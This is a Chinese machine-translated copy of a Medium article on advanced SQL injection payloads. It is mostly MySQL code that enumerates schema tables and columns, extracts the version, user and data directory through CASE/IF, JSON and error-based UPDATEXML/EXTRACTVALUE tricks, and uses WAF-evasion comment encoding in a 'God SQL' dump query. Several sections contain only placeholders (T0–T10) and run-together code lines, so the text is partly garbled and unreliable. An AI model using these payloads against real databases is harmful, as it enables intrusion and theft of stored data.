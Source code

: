 # 使用 Advanced SQL Payloads

> 原文：<https://medium.com/nerd-for-tech/advanced-sql-payloads-5af8f924865b?source=collection_archive---------16----------------------->

![](img/ed7cdb117c43ac91edcb44d582629809.png)

# 使用 sql 函数的 SQL 注入

# 使用 RPAD 函数和 SOUNDS LIKE 的 Sql injection payload

(T0)

# Sql injection payload 使用 upper + reverse + right + sound like 提取信息

(T1 )

# 使用 ELT,双反向,hex 和 unhex 的 sql 注入

(T2 )

# Sql 注入案例

```
SELECT CASE WHEN (1=1) THEN table_name ELSE '<a href=https://twitter.com/_Y000_>_Y00!_</a>' END from information_schema.tablesSELECT CASE 4 WHEN 1 THEN database() WHEN 2 THEN @@version WHEN 3 THEN table_name ELSE '_Y000!_' END FROM information_schema.tablesSELECT CASE WHEN 1>0 THEN table_name ELSE '_Y000!_' END FROM information_schema.tables
```

# SQL IF 函数

```
SELECT IF(STRCMP('1','1'),'_Y000!_',table_name) FROM information_schema.tablesselect IF(MID(@@version,1,1)='5',table_name,'_Y000!_') from information_schema.tables
```

# SQL IFNULL

```
SELECT IFNULL(1+1/0,table_name) FROM information_schema.tables
```

# SQL NULLIF

```
SELECT NULLIF(table_name,2) from information_schema.tables
```

# Sql 注入有效负载(upper + reverse + right + sound like)

(T3 )

# SQL 注入使用双反向+right + if 陈述+HTML 注入

(T4 )

# 使用 HEX-UNHEX 函数的 Sql 注入

(T5 )

# SQL 注入类型基于错误,使用 Extractvalue

(T6 )

# Sql injection payload 使用反向

(T7 )

# 使用 extractvalue 的 Sql injection payload

(T8 )

# Sql injection payload + url encode + timing

(T9 )

# JSON 生成函数

```
select JSON_OBJECT(1, @@version)select json_array(current_user())select json_objectagg(1, @@datadir)select json_arrayagg('_Y000!_')
```

# 混合

```
select json_arrayagg(concat(JSON_OBJECT(concat(JSON_OBJECT(concat(current_user()), concat(@@version))), '_Y000!_')))SELECT * FROM  information_schema.tables WHERE `table_name` REGEXP 'admin'SELECT IF(IFNULL(1/0,'a'),'NO',JSON_OBJECT(1, concat(table_name))) FROM  information_schema.tables WHERE `table_name` REGEXP 'admin'select UPDATEXML(1,CONCAT('.',1,(SELECT (ELT(1=1,2))),3),1)select UNHEX(HEX(lpad(table_name,50,'>'))) from information_schema.tablesSELECT TRIM(UpdateXML(table_name, '_Y000_', '1111')) FROM information_schema.tablesselect IF(IFNULL(0,'a'),'NO es nulo',JSON_OBJECT(1, concat(table_name))) FROM  information_schema.tablesSelect if(substring(@@version,'1','1') = "5", 'si', 'no')Select Unhex(hex(WEIGHT_STRING(table_name))) as 'tables' from information_schema.tables where table_name regexp '^[a | b]'select UNHEX(HEX(lpad(table_name,50,'>'))) from information_schema.tablesselect UPDATEXML(1,CONCAT('.',1,(SELECT (ELT(1=1,2))),3),1)SELECT TRIM(UpdateXML(table_name, '_Y000_', '1111')) FROM information_schema.tablesSELECT * FROM (SELECT count(*), CONCAT((select json_arrayagg(concat(JSON_OBJECT(concat(JSON_OBJECT(concat(current_user()), concat(@[@version](https://twitter.com/version)))), '_Y000!_')))), 0x23, FLOOR(RAND(0)*1)) AS x FROM information_schema.columns GROUP BY x) ySelect if(now()=sysdate(),(select table_name),0) from information_schema.tables
```

# SQL 注入 + 上帝 SQL

```
/*!u%6eion*/ /*!se%6cect*/+1,concat(@:=0,(select count(*)from information_schema.columns where@:=concat(@,'<br>',table_name,'::',column_name)),@),3..(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,0x3c62723e,table_name,0x203a3a20,column_name))))x)CONCAT(Tablas <br>,(SELECT(@x)FROM(SELECT(@x:=0x00),(@NR:=0),(SELECT(0)FROM(INFORMATION_SCHEMA.TABLES)WHERE(TABLE_SCHEMA!=information_schema)AND(0x00)IN(@x:=CONCAT(@x,LPAD(@NR:=@NR%2b1,2,0x30),0x3a20,table_name,0x3c62723e))))x))
```

# Sql injection Buffer Overflow / Firewall Crash Bypass + xss injection

(T10)
